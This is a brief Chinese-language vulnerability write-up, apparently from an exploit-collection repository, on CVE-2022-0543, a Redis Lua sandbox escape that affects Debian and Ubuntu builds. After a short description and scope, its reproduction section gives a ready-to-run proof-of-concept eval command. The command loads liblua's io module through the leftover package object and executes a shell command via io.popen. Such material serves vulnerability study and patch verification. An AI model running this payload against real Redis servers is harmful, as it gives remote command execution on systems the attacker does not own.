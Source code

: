 # 

# Redis Lua 沙箱绕过 远程命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

## 漏洞影响

```
只限于Debian和Debian派生的Linux发行版（如Ubuntu）上的Redis服务
```

## 漏洞复现

远程连接Redis, 执行POC

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20220524131958982](./images/202205241320211.png)
